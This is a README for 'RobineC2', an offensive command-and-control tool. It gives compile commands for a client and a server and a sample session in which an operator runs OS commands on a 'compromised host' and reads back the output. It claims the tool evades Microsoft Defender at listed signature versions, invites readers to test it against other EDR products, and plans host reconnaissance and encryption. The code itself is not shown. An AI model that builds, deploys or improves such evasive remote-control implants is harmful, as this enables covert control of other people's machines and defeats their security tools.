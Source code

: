 # RobineC2

 +-+-+-+-+-+-+-+-+-+
 |R|O|B|I|N|E|-|C|2|
 +-+-+-+-+-+-+-+-+-+
                                                                                
                                                  
**Cheap and fast C2, nothing is encrypted, and sometimes going back to the basics yields some funny results.**
- Tested in a lab with Defender, and it works. (Security intelligence Version: AV: 1.399.939.0, AS: 1.399.939.0, NIS: 1.399.939.0
 	Engine Version: AM: 1.1.23090.2007, NIS: 1.1.23090.2007)
- It would probably bypass the other EDR, who knows, if you can test it tell me.
- Simple works fine sometimes.

**TODO:**
- Add more information from the compromised host and report back to the server.
- Encryption between client and server.
- Other stuff. 
  
**How to compile**

```
cl client.cpp /EHsc /link ws2_32.lib
cl server.cpp /EHsc /link ws2_32.lib
```

```
c:\batmanismad\server.exe
Waiting for client connection...
Enter OS command to send: dir
Command Output:
 Volume in drive C has no label.
 Volume Serial Number is 1337-1337

 Directory of C:\Users\batman\Desktop

10/19/2023  01:24 PM    <DIR>          .
10/19/2023  01:24 PM    <DIR>          ..
10/16/2023  08:19 AM         1,939,696 windowsupdate.cpl
09/29/2022  08:26 PM         2,774,440 Bginfo64.exe
08/27/2023  01:50 PM             1,965 Process Lover 2.lnk
10/18/2023  08:02 AM             7,680 SharpMoneyMaker.exe
               5 File(s)      4,832,325 bytes
               2 Dir(s)  100,727,209,984 bytes free

Enter OS command to send: hostname
Command Output:
WIN10-VICTIME-BATMAN
```
